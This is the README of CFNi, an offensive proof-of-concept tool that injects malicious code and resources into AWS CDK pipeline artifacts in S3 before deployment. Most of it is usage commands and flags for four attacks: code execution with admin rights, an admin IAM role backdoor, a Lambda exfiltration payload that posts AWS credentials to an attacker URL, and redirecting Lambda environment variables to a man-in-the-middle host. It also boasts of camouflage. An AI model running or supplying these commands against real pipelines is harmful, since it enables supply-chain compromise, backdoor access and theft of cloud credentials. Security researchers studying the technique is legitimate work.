


# CFNi - Cloudformation injection
 
[](https://pkg.go.dev/github.com/hupe1980/cfni)
> CFNi is a proof-of-concept to demonstrate an attack on the populare aws cdk pipeline. It takes advantage of the fact that between the "Synth" step and the use of the cloudformation templates and lambda assets some time passes ("SelfMutate") and no integrity check is performed by default. After receiving an event from s3, the lambda function injects the malicious code/resources into the generated files. SAST/DAST controls and pull request reviews are bypassed and other accounts can also be attacked if the pipeline supports crossaccount deployments.

:warning: This is for educational purpose. Don't try it without permission!

## IAM
CFNi is designed to use a secondary account that you have full access to. The lambda is deployed there. This eliminates the need to have the required permissions in the target account. The credentials for this account should be specified with the `--attacker-profile` flag.

The `--bucket-profile` should have s3:PutBucketNotification permission to the targeted S3 bucket.

The `--s3-access-key-id`, `--s3-secret-access-key` and optionally `--s3-session-token` should have s3:GetObject and s3:PutObject permissions on the target S3 bucket. These credentials are hardcoded into the lambda during deployment and used to read the bucket files and inject the malicious code/resources.

Everything can also only be done in the bucket account. To do this, the same profile must be specified for the `--attacker-profile` and `--bucket-profile` flags. If no access-key is specified, CFNi tries to give the LambaExecutionRole the required s3:GetObject and s3:PutObject permissions.

## Bucket
The relevant bucket can be found in the build project (Synth) under artifacts upload location.



## Attacks
The proof-of-concept currently supports the following attacks:
- [CFN Code Execution](#cfn-code-execution)
- [IAM Role Backdoor](#iam-role-backdoor)
- [Lamda Exfiltration](#lambda-exfiltration)
- [Lamda Set Envs](#lambda-set-envs)

### CFN Code Execution
Adds a custom resource with admin permission to run custom code

```
Usage:
  cfni cfn-code-execution [flags]

Examples:
cat > input.js << EOF
async function cfni(event, context) {
	console.log(event)
	return {}
}
EOF

cfni cfn-code-execution --attacker-profile ap --bucket-profile bp --bucket pipeline-bucket --s3-access-key-id AKIAXXX --s3-secret-access-key Ey123XXX -f input.js --runtime nodejs16.x

Flags:
  -b, --bucket string                 bucket name (required)
      --custom-type string            custom type of custom resource (default "CFNICustomResource")
      --environment strings           filter environments (default all environments)
  -f, --filename string               filename of the code execution file
  -h, --help                          help for cfn-code-execution
      --locigal-custom-id string      logical id of custom resource (default "CFNICustomResourceCE34F12B")
      --locigal-lambda-id string      logical id of lambda (default "CFNILambdaFB14A34E")
      --locigal-role-id string        logical id of role (default "CFNIRoleAF22D32D")
      --runtime string                runtime of the code execution
      --s3-access-key-id string       s3 access key id
      --s3-secret-access-key string   s3 secret access key
      --s3-session-token string       s3 session token
      --stack strings                 filter stacks (default all stacks)

Global Flags:
      --attacker-profile string   attacker AWS profile
      --attacker-region string    attacker AWS region
      --bucket-profile string     bucket AWS profile
      --bucket-region string      bucket AWS region
  -A, --user-agent string         user-agent to use for sdk calls (default "cfni")
```


### IAM Role Backdoor
Adds a role with admin permissions.

```
Usage:
  cfni iam-role-backdoor [flags]

Examples:
cfni iam-role-backdoor --attacker-profile ap --bucket-profile bp --bucket pipeline-bucket --s3-access-key-id AKIAXXX --s3-secret-access-key Ey123XXX

Flags:
  -b, --bucket string                 bucket name (required)  
      --environment strings           filter environments (default all environments)
  -h, --help                          help for iam-role-backdoor
      --logical-id string             logical id of the backdoor role (default "MaintenanceRoleBF21E41F")
  -p, --principal string              principal for backdoor role (default root principal of the attacker account)
  -r, --role-name string              name of the backdoor role (default generated role-name)
      --s3-access-key-id string       s3 access key id
      --s3-secret-access-key string   s3 secret access key
      --s3-session-token string       s3 session token
      --stack strings                 filter stacks (default all stacks)

Global Flags:
      --attacker-profile string   attacker AWS profile
      --attacker-region string    attacker AWS region
      --bucket-profile string     bucket AWS profile
      --bucket-region string      bucket AWS region
  -A, --user-agent string         user-agent to use for sdk calls (default "cfni")
```

### Lambda Exfiltration
Injects a script that executes a post request with the lambda's environment variables as the body. access-key-id, secret-access-key and session-token are included in the payload.

```
Usage:
  cfni lambda-exfiltration [flags]

Examples:
cfni lambda-exfiltration --attacker-profile ap --bucket-profile bp --bucket pipeline-bucket --s3-access-key-id AKIAXXX --s3-secret-access-key Ey123XXX --url https://xxxyem3.oastify.com

Flags:
  -b, --bucket string                 bucket name (required)
      --environment strings           filter environments (default all environments)
  -h, --help                          help for lambda-exfiltration
      --s3-access-key-id string       s3 access key id
      --s3-secret-access-key string   s3 secret access key
      --s3-session-token string       s3 session token
      --stack strings                 filter stacks (default all stacks)
  -u, --url string                    exfiltration url (required)

Global Flags:
      --attacker-profile string   attacker AWS profile
      --attacker-region string    attacker AWS region
      --bucket-profile string     bucket AWS profile
      --bucket-region string      bucket AWS region
  -A, --user-agent string         user-agent to use for sdk calls (default "cfni")
```

### Lambda Set Envs
Sets lambda environment variables.

```
Usage:
  cfni lambda-set-envs [flags]

Examples:
cfni lambda-set-envs --attacker-profile ap --bucket-profile bp --bucket pipeline-bucket --s3-access-key-id AKIAXXX --s3-secret-access-key Ey123XXX --env API_URL=https://mitm.org

Flags:
  -b, --bucket string                 bucket name (required)
      --env stringToString            lambda environment variable (required)
      --environment strings           filter environments (default all environments)
  -h, --help                          help for lambda-set-envs
      --s3-access-key-id string       s3 access key id
      --s3-secret-access-key string   s3 secret access key
      --s3-session-token string       s3 session token
      --stack strings                 filter stacks (default all stacks)

Global Flags:
      --attacker-profile string   attacker AWS profile
      --attacker-region string    attacker AWS region
      --bucket-profile string     bucket AWS profile
      --bucket-region string      bucket AWS region
  -A, --user-agent string         user-agent to use for sdk calls (default "cfni")
```

## Camouflage
If the lambda is deployed in the bucket account, it camouflages itself ;o)



## License
[MIT](LICENCE)